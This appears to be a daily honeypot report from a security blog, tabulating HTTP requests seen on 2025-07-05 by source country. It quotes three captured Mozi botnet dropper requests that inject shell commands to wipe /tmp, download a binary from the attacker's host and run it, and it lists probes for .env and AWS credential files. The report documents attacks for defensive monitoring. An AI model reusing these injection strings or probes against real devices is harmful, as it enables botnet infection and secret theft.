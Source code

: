 ```yaml
---
title: "Report: 2025-07-05 "
date: 2025-07-05
desciption: "Report: 2025-07-05" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-05 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 37 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 4250 requests were recorded during the day, originating from 3 different countries, with a peak of 2706 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| FR               | Georgia            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.173.211.237 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://103.173.211.237:40935/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                |
| 120.86.254.114  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                     |
| 112.198.186.249 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.198.186.249:58935/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                       |
|-----:|----------------------:|:--------------------------------------------------------------|
|   22 |                     4 | GET /app/.env.key HTTP/1.1                                    |
|   23 |                     4 | GET /awsconf/.env HTTP/1.1                                    |
|   30 |                     3 | GET /ssl.php HTTP/1.1                                         |
|  420 |                     1 | GET /0Mkt HTTP/1.1                                            |
|  426 |                     1 | GET /nmaplowercheck1751727559 HTTP/1.1                        |
|  433 |                     1 | GET /NmapUpperCheck1751727559 HTTP/1.1                        |
|  436 |                     1 | GET /Nmap/folder/check1751727559 HTTP/1.1                     |
| 1333 |                     1 | GET /socket.io/1/?t=1751683036334 HTTP/1.1                    |
| 1452 |                     1 | GET /api/.env.uat HTTP/1.1                                    |
| 1473 |                     1 | GET /.env-public HTTP/1.1                                     |
| 1474 |                     1 | GET /.env-apache HTTP/1.1                                     |
| 1475 |                     1 | GET /.env-logger HTTP/1.1                                     |
| 1476 |                     1 | GET /.env-svelte HTTP/1.1                                     |
| 1477 |                     1 | GET /.env-stripe HTTP/1.1                                     |
| 1504 |                     1 | GET /app/.env.gcp HTTP/1.1                                    |
| 1525 |                     1 | GET /sy.php HTTP/1.1                                          |
| 1526 |                     1 | \x00\x0E\x08\xFB\xEF\xAE\x0B\xBAG\xCA\xE3\x00\x00\x00\x00\x00 |
| 1527 |                     1 | \x00\x0E8\xFB\xEF\xAE\x0B\xBAG\xCA\xE3\x00\x00\x00\x00\x00    |
| 1529 |                     1 | \x00\x0E\x08,&y\xBD\xA8RM\xCB\x00\x00\x00\x00\x00             |
| 1530 |                     1 | \x00\x0E8,&y\xBD\xA8RM\xCB\x00\x00\x00\x00\x00                |
| 1533 |                     1 | GET /.env.save.2 HTTP/1.1                                     |
| 1534 |                     1 | GET /.env.render HTTP/1.1                                     |
| 1535 |                     1 | GET /.env-branch HTTP/1.1                                     |
| 1536 |                     1 | GET /.env.passwd HTTP/1.1                                     |
| 1537 |                     1 | GET /.env-strapi HTTP/1.1                                     |
| 1538 |                     1 | GET /.env-models HTTP/1.1                                     |
| 1539 |                     1 | GET /.env-readme HTTP/1.1                                     |
| 1541 |                     1 | GET /.env-ci.yml HTTP/1.1                                     |
| 1542 |                     1 | GET /.env.newest HTTP/1.1                                     |
| 1543 |                     1 | GET /.env-config HTTP/1.1                                     |
| 1544 |                     1 | GET /.env-nextjs HTTP/1.1                                     |
| 1547 |                     1 | GET /.env-nodejs HTTP/1.1                                     |
| 1548 |                     1 | GET /.env-worker HTTP/1.1                                     |
| 1549 |                     1 | GET /.env.latest HTTP/1.1                                     |
| 1550 |                     1 | GET /.env-stdout HTTP/1.1                                     |
| 1551 |                     1 | GET /.env-stderr HTTP/1.1                                     |
| 1552 |                     1 | GET /.env-oauth2 HTTP/1.1                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2706 | GB                 |
|  1 |                   849 | US                 |
|  2 |                   190 | DE                 |
|  3 |                    52 | IN                 |
|  4 |                    49 | SE                 |
|  5 |                    49 | VN                 |
|  6 |                    47 | NL                 |
|  7 |                    40 | FR                 |
|  8 |                    35 | CA                 |
|  9 |                    33 | BG                 |
| 10 |                    27 | CN                 |
| 11 |                    22 | AU                 |
| 12 |                    16 | SC                 |
| 13 |                    14 | JP                 |
| 14 |                    12 | PL                 |
| 15 |                    10 | RU                 |
| 16 |                     9 | MU                 |
| 17 |                     9 | BR                 |
| 18 |                     9 | TW                 |
| 19 |                     7 | BE                 |
| 20 |                     7 | TR                 |
| 21 |                     7 | ZA                 |
| 22 |                     6 | IR                 |
| 23 |                     6 | UA                 |
| 24 |                     5 | SG                 |
| 25 |                     5 | GH                 |
| 26 |                     3 | KZ                 |
| 27 |                     3 | HK                 |
| 28 |                     3 | AO                 |
| 29 |                     2 | EE                 |
| 30 |                     2 | GR                 |
| 31 |                     2 | GE                 |
| 32 |                     2 | KW                 |
| 33 |                     2 | LT                 |
| 34 |                     2 | IE                 |
| 35 |                     1 | AR                 |
| 36 |                     1 | AT                 |
| 37 |                     1 | MN                 |
| 38 |                     1 | PT                 |
| 39 |                     1 | SA                 |
| 40 |                     1 | PH                 |
| 41 |                     1 | CZ                 |
| 42 |                     1 | NG                 |
